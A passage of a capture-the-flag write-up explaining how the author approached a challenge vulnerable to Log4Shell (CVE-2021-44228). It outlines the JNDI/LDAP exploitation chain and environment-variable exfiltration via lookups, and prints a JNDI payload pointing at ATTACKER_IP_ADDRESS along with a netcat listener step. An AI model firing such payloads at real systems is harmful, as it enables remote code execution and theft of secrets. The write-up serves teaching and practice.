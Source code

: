 Most people I know missed that one, but it's pretty normal to not notice favicons, and a custom one might not exactly catch your attention, so don't stress it. It's pretty funny though - and a clear reference to Log4Shell - CVE-2021-44228. For a great post about it see: [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)

Either way, finding a mention to logs should have been enough to get us started. At this point, we could start fuzzing to search for the logs, and trying to use a custom number list to find those 4 suffix numbers, in an attempt to get access to the actual log files. This would facilitate our exploitation.

However, this is not strictly necessary, and I actively avoided it because Hydragyrum is known for having fail2ban bruteforce protection on his challenges. Turns out he didn't have it enabled on this one, so we missed that, but we'll use the opportunity to do some black-box exploitation.


##Log4Shell - CVE-2021-44228

Log4Shell is a now infamous vulnerability that the infosec community will be hearing about for years to come. This flaw the Log4j java software component has a varied impact and can be exploited in multiple ways. The most common method of exploitation consists of providing a specific string to application inputs, and when that message is logged it causes a message lookup, which starts a request via JNDI (Java Naming and Directory Interface) which uses a directory service (like LDAP) to obtain and execute Java resources, resulting in RCE (Remote Code Execution).

> It is worth pointing out that there are other possibilities of exploitation. For insntance, even if RCE is not obtained it can be possible to use this to exfiltrate Environment Variables via non JNDI payloads such as `${env:USERNAME}` (so keep your env close and your AWS API keys closer). We can even nest these lookups to exfiltrate data via DNS, or other services. We will make use of this later.

For some detailed instructions on this vulnerability and how to exploit it see the room: [https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)

The exploit essentially consists of 4 steps:

1.  We submit a payload on a logged input in the application.
2.  The application processes the message lookup and requests the java resource from a directory service (LDAP in this case).
3.  LDAP provides a reference to the location where the java resource can be obtained.
4.  Application download the java resource, and executes it.

Ok. Now that I've bored you to death with a bit of details, what can we do in our application? We can supply as many inputs as we find with the payload until we find something vulnerable. We can try the XML filename, we can try the XML content, we can try different headers in our HTTP request, etc.

> Note: If we had fuzzed and found the logs, we would have a better understanding of what's being logged, and we could build our payload faster. But we decided not to, and so with less enumeration, things get dirtier.

How do we do this? We place the following payload on all the possible inputs we can think of (one at a time):

```bash
${jndi:ldap://ATTACKER_IP_ADDRESS:8080/}
```

And we start a netcat listener on port 8080.
